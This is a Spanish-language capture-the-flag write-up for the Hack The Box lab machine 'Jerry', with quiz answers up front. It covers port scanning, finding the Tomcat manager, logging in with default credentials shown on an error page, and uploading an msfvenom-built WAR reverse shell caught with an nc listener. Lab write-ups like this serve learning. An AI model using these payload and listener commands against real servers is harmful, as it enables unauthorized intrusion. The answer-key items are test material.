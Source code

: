 1)¿Qué puerto TCP está abierto en el host remoto?
	8080

2)¿Qué servidor web se está ejecutando en el host remoto? Buscando dos palabras.
	apache tomcat

3)¿Qué ruta relativa en el servidor web lleva al Web Application Manager?
	/manager/html

4)¿Cuál es la combinación válida de nombre de usuario y contraseña para autenticarse en el gestor de aplicaciones web Tomcat? Dar la respuesta en el formato de nombre de usuario:contraseña
	tomcat:s3cret

5)¿Qué tipo de archivo puede cargarse y desplegarse en el servidor utilizando el Administrador de Aplicaciones Web Tomcat?
	war


-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.95
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.95 -oG allPorts
nmap -sCV -p8080 10.10.10.95 -oN target
```

![[Jerry1.png]]
![[Jerry2.png]]
*TTL:* Maquina windows
*Puertos:*
	``8080 `` HTTP 

--------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.95:8080/
```
![[Jerry3.png]]

![[Jerry7.png]]
Nos indica que esta el directorio /manager/html

---------
# [[Arbitrary file upload]] en tomcat

Entramos a la pagina principal y vemos que es un tomcat
![[Jerry5.png]]
Ponemos un usuario y contraseña para probar
![[Jerry6.png]]
Y en la pagina de error, nos muestra un usuario y contraseña que al probarlos, vemos que podemos ingresar al panel de tomcat
![[Jerry4.png]]

![[Jerry11.png]]
Vemos que podemos subir archivos .war. Asi que vamos a mandarnos una [[Reverse shell]]

-------
# [[Reverse shell]]

Con [[msfvenom]] creamos el archivo .war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

![[Jerry8.png]]
Creamos el archivo shell.war que lo vamos a subir a la pagina 

Ahora mientras estamos en escucha con [[rlwrap nc -lvnp 443]] vamos a ingresar a la pagina http://10.10.10.95:8080/shell/ para ejecutar el archivo shell.war que subimos anteriormente
Y listo ya estamos adentro de la maquina y podemos catear las flags
![[Jerry9.png]]

![[Jerry10.png]]

---------
# Notas

Tomcat es un servidor de aplicaciones desarrollado por Apache que permite ejecutar aplicaciones web escritas en Java. Funciona como contenedor de servlets y JSP, siguiendo la especificación Java EE. Escucha comúnmente en el puerto 8080. Es usado tanto en entornos de desarrollo como en producción.

----
# Creditos

[Writeup de territoriohacker](https://territoriohacker.com/htb-jerry/)